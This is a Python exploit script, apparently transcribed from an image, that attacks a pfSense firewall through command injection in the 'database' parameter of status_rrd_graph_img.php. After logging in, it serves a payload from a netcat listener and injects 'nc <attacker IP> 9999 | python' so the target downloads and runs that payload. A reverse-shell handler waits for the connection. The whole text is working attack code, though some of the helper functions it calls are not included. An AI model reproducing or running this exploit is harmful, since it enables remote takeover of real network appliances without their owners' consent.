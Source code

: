 ```py
def exploit(rhost,lhost):
    print("[+] Let's open port 9999 to send the payload! [+]")
    os.system("nc -lnvp 9999 < payload.txt & > /dev/null 2>&1")
    print("[+] Payload Sent! Shell comming soon! [+]")
    exploit_url = "https://" + rhost + "/status_rrd_graph_img.php?database=queues;"+"nc+"+ lhost + "+" + "9999" + "|" + "python" + "%26"
    exploit_request = r.get(exploit_url, cookies=r.cookies, headers=headers, verify=False, timeout=5, proxies=proxies)
    os.system("rm payload.txt")

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-li', '--localip', help='Listening IP address for reverse shell', required=False)
    parser.add_argument('-lp', '--port', help='Listening port for reverse shell', required=False)
    parser.add_argument('-u', '--username', help='Username to target', required=False)
    parser.add_argument('-p', '--password', help='Password value to set', required=False)
    args = parser.parse_args()
    
    rhost = args.target
    lhost = args.localip
    lport = args.port
    username = args.username
    password = args.password
    
    '''Here we call the functions'''
    # Set up the handler
    thr = Thread(target=handler,args=(int(lport),rhost))
    thr.start()
    # Get the csrftoken
    getCSRFToken(rhost)
    # Log in
    pfsenseLogin(rhost,username,password)
    # Mount the payload
    payload(lhost,lport)
    # Exploit
    exploit(rhost,lhost)
if __name__ == '__main__':
    main()
```